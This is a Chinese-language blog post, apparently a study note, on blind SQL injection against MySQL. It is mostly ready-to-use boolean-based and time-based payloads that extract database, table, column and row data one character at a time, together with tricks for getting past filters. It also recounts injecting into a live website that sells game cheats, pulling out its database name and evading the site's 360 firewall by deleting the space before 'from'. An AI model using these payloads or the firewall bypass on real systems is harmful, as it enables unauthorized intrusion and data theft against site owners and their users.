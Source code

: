 ```yaml
---
title: "SQL注入学习之盲注"
date: 2019-11-19T22:02:17+08:00
draft: flase
tags: ['SQL注入,盲注']
categories: ['SQL注入']
---
```

继续学，冲冲冲
<!--more-->

## 基于布尔的盲注
在页面中，如果正确执行了SQL语句，则返回一种页面，如果SQL语句执行错误，则执行另一种页面。基于两种页面，来判断SQL语句正确与否，达到获取数据的目的

### Payload
网上的payload一般是利用ascii()、substr()、length()结合进行利用

- 获取数据库长度

```mysql
and (select length(database()))=长度
```

- 逐字猜解数据库名

```mysql
and (select ascii(substr(database(),位数,1)))=ascii码
```

- 猜解表名数量

```mysql
and (select count(table_name) from information_schema.tables where table_schema=database())=数量

```

- 猜解某个表长度

```mysql
and (select length(table_name) from information_schema.tables where table_schema=database() limit n,1)=长度
```

- 逐位猜解表名

```mysql
and (select ascii(substr(table_name,1,1)) from information_schema.tables 
where table_schema = database() limit n,1)=ascii码
```

- 猜解列名数量

```mysql
and (select count(*) from information_schema.columns where table_schema =
 database() and table_name = 表名)=数量
```

- 猜解某个列长度

```mysql
and (select length(column_name) from information_schema.columns where table_name="表名" limit n,1)=长度
```

- 逐位猜解列名

```mysql
and (select ascii(substr(column_name,位数,1)) from information_schema.columns where table_name="表名" limit n,1)=ascii码
```

- 判断数据的数量

```mysql
and (select count(列名) from 表名)=数量
```

- 猜解某条数据的长度

```mysql
and (select length(列名) from admin limit n,1)=长度
```

- 逐位猜解数据

```mysql
and (select ascii(substr(user,位数,1)) from admin limit n,1)=ascii码
```


### 盲注tips
#### 过滤了substr函数怎么办
用如下函数

```

left(str,index) 从左边第index开始截取  
right(str,index) 从右边第index开始截取  
substring(str,index) 从左边index开始截取    
mid(str,index,ken) 截取str 从index开始,截取len的长度  
lpad(str,len,padstr) rpad(str,len,padstr) 在str的左(右)两边填充给定的padstr到指定的长度len,返回填充的结果 
 ```
 
#### 过滤了等于号怎么办？
1、用in()

![avatar](https://sqlmap.wiki/images/QQ%E6%88%AA%E5%9B%BE20191119103421.png)

2、用like

![avatar](https://sqlmap.wiki/images/QQ截图20191119103614.png)

#### 过滤了ascii()怎么办？
hex() 
bin()
ord()

#### 过滤了字段名怎么办？

1、order by 盲注 

 条件：有回显，给出字段结构

order by用于根据指定的列对结果集进行排序。一般上是从0-9a-z这样排序，不区分大小写。先看下id为1的查询结果<br>

![avatar](https://sqlmap.wiki/images/QQ截图20191119100631.png)

执行如下payload

```mysql
select * from users where id=1 union select 1,'d',3 order by 2
```

![avatar](https://sqlmap.wiki/images/QQ截图20191119100952.png)
发现我们联合查询的数据d排在前面<br>
再执行如下payload

```mysql
select * from users where id=1 union select 1,'z',3 order by 2
```

![avatar]https://sqlmap.wiki/images/QQ截图20191119101219.png
发现联合查询的数据z排在后面了。这是什么意思呢？第一次联合查询的d，排在前面，是因为id为1的数据第一位是d，所以排在前面了。而id为1的数据第一位不是z，所以z就排在后面了，我们可以利用这个特性来进行布尔盲注，只要猜0-9，a-z，逐字猜解就好<br>

2、子查询

这个东西没啥好解释的，直接看payload吧

```mysql
select * from users where id=-1 union select 1,2,x.2 from (select * from (select 1)a,(select 2)b,(select 3)c union select * from users)x
```

![avatar]https://sqlmap.wiki/images/QQ截图20191119102810.png

### 实例演示
一个卖吃鸡外挂的网站
![avatar](https://sqlmap.wiki/images/QQ截图20191119104843.png)
创建订单那存在SQL注入，利用上面常规payload获取到数据库名了，数据库名为chiji，进行到获取表数量就开始拦截了。
![avatar](https://sqlmap.wiki/images/QQ截图20191119105346.png)
发现是360主机卫士拦截了，本来想按照bypass老哥发的文章进行绕过的，发现各种方法都不行，可能是站长修改了规则。自己测试，发现select 1不拦截。select 1 from不拦截。select 1 from 1拦截。所以我们要破坏select from的结构才能进行绕过。后来询问@撕夜师傅发现去掉from前面的空格即可绕过。后面的步骤参考上面的payload即可

## 基于时间的盲注
布尔盲注是根据页面正常否进行注入，而时间盲注则是通过SQL语句查询的时间来进行注入,一般是在页面无回显，无报错的情况下使用


- 猜解数据库长度

```mysql
and if((select length(database()))=长度,sleep(6),0)
```

- 猜解数据库名

```mysql
and if((select ascii(substr(database(),位数,1))=ascii码),sleep(6),0)
```

- 判断表名的数量

```mysql
and if((select count(table_name) from information_schema.tables where table_schema=database())=个数,sleep(6),0)
```

- 判断某个表名的长度

```mysql
and if((select length(table_name) from information_schema.tables where table_schema=database() limit n,1)=长度,sleep(6),0)
```

- 逐位猜表名

```mysql
and if((select ascii(substr(table_name,位数,1)) from information_schema.tables where table_schema=database() limit n,1)=ascii码,sleep(6),0)
```

- 判断列名数量

```mysql
and if((select count(column_name) from information_schema.columns where table_name="表名")=个数,sleep(6),0)
```

- 判断某个列名的长度

```mysql
and if((select length(column_name) from information_schema.columns where table_name="表名" limit n,1)=长度,sleep(6),0)
```

- 逐位猜列名

```mysql
and if((select ascii(substr(column_name,位数,1)) from information_schema.columns where table_name="表名" limit n,1)=ascii码,sleep(6),0)
```

- 判断数据的数量

```mysql
and if((select count(列名) from 表名)=个数,sleep(6),0)
```

- 判断某个数据的长度

```mysql
and if((select length(列名) from 表名)=长度,sleep(6),0)
```

- 逐位猜数据

```mysql
and if((select ascii(substr(列名,n,1)) from 表名)=ascii码,sleep(6),0)
```

### 时间盲注小tips
如果过滤了sleep，还可以用benchmark()，这个函数第一个值填要执行的次数，第二个填写要执行的表达式

```mysql
 select * from users where id=1 and if(ascii(substring((database()),1,1))>1,(select benchmark(10000000,md5(0x41))),1)
 ```
 
![avatar](https://sqlmap.wiki/images/QQ截图20191119212315.png)

## 参考文章
https://www.t00ls.net/viewthread.php?tid=49626&highlight=SQL%E6%B3%A8%E5%85%A5<br>
https://www.chabug.org/ctf/852.html
